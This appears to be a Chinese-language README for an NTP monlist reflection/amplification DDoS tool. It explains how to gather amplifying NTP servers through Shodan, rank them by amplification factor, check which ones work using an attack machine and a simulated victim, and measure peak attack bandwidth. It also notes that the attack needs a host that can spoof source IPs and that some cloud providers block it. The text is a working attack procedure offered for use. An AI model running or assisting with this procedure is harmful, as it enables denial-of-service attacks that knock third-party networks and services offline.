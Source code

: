 > 需要有一台ISP没做源地址验证，支持IP Spoof的服务器。很难很难找，但是我有，但是为了防止滥用，就不公开了（doge)。如果有需要的话，那就自己慢慢交学费吧。
>
> 还需要shodan的API，这边提供了shodan寻找有monlist的技巧，我是用会员API KEY写的脚本，非会员的话就修改一下search.py中的search_and_save函数


```
# 从shodan中下载ntp 服务器清单
python search.py

# 查找ntp放大倍率高的服务器
python top.py
```



跑出一份top.txt后，但是实际上top.txt中的ntp服务器很多依然是不可用的，需要将top.txt同时上传到攻击机和模拟受害机实测一下

```
#模拟受害机
tcpdump -i eth0 udp -w 1.cap

#攻击机
python3 test.py

#模拟受害机，查看抓包的结果。（顺序）输出所有在1.cap中出现次数超过10次且同时存在于top.txt中的ip
tshark -r 1.cap -T fields -e ip.src -Y 'ntp' | sort | uniq -c | sort -n | awk '$1 > 10' | grep -F -f top.txt | awk '{ print $2 }' > final.txt

```



测试峰值带宽：

```
#模拟受害机
tcpdump -i eth0 udp -w 2.cap

#攻击机
python3 attack.py
```

2.cap用wireshark打开：统计—>IO图标，Y轴改成Bytes，就可以测算峰值带宽了
![](2cap.png)


PS：测试阿里/腾讯服务器貌似不能成功，存在 NTP 的反射防护策略。抓包了一下攻击流量，可以看到请求的ip都是内网的ip。

![](txy.png)


